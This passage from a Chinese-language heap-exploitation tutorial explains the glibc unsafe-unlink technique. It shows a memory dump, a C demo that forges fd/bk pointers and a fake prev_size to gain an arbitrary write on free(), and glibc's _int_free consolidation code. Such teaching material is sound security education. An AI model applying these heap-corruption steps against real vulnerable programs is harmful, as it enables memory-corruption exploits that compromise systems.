 ```
0x602240:	0x0000000000000000	0x0000000000000000
0x602250:	0x0000000000000000	0x0000000000020db1
0x602260:	0x0000000000000000	0x0000000000000000
```

&emsp;&emsp;<font size=2>那么对这个demo的分析完成了，接下来就直接看看unsafe-unlink是怎么利用这个unlink宏达到攻击效果的吧。看如下demo代码：</font></br>

```C
#include <stdio.h>
#include <stdlib.h>

unsigned long chunk_link[0x10];

int main()
{
	void *p1,*p2;
	unsigned long* ptr;

	p1=malloc(0x100);
	p2=malloc(0x100);
	malloc(0x20);

  //记录这些堆块
	chunk_link[0]=p1;
	chunk_link[1]=p2;

  //伪造fd和bk
	ptr=(unsigned long*)p1;
	*(ptr+2)=(unsigned long)&chunk_link[0]-0x18;
	*(ptr+3)=(unsigned long)&chunk_link[0]-0x10;

  //伪造pre_size并抹掉prev_inuse位
	ptr=(unsigned long*)p2;
	*(ptr-2)=0x100;
	*(ptr-1)=0x110;
  //unlink修改了chunk_link记录的堆块指针
	free(p2);

  //任意地址写
	read(0,chunk_link[0],0x20);
	read(0,chunk_link[0],0x20);

	return 0;
}
```

&emsp;&emsp;<font size=2>这是一段模拟了unsafe-unlink攻击导致可以任意地址写的代码，假如有一个读书笔记模拟程序，该程序可能通过malloc分配的堆块记录你写的笔记，然后你可以对你之前写的笔记重新进行修改（相当于之前分配的堆块），那么可能就会有一个全局变量保存了每个堆块的地址以方便下次进行写入读取。接下来我们开始我们的正片，伪造fd，bk后再伪造下一个堆块的pre_size和prev_inuse位！然后我们将跟踪`free(p2);`这个函数来分析unsafe-unlink是如何发生的，老样子，直接从_int_free的核心代码开始看起：</font></br>

```C
    /* consolidate backward */
    if (!prev_inuse(p)) {
      prevsize = p->prev_size;
      size += prevsize;
      p = chunk_at_offset(p, -((long) prevsize));
      unlink(av, p, bck, fwd);
    }
```
